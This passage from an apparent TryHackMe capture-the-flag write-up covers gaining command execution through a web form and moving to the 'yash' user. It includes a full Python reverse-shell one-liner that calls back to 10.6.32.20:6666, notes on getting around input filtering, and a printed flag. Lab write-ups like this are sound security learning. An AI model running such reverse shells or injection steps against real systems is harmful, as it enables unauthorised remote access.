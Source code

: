 It does a `POST` request and display the queried text on the page.



seems like the content of the query is escaped. The following are deleted :

```
php
()
$
''
```

Tried with `<?= "someString" ?>`

But it doesn't seem like our php code will be executed

Hmm, what can we do with this ?

The prompt says that it's a message for `yash`, nothing in `/var/spool/mail` tho..



Oh wellll, had a look at a writeup.

First something that I didn't see was a `:8000/login.html` which is just a static webpage showing a login form with hardcoded creds (`user:pass`). A successfull login redirect us to `:8000/pentest.php`.



And the query box actually give us `command execution` ... Tested it by doing a `touch /tmp/pwn` and verified that the file was created on the machine.



Now let's get another revshell i guess

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.32.20",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

But the `python` string get removed so we don't get our callback.

Let's just create a bash script on the server using our `ssh` connection to `files` user and call it from the prompt.

And we are finally `yash` user



`/home/yash/flag1.txt`:

```
THM{c296539f3286a899d8b3f6632fd62274}
```

## Priv esc

running `sudo -l` gives us :

```
User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```
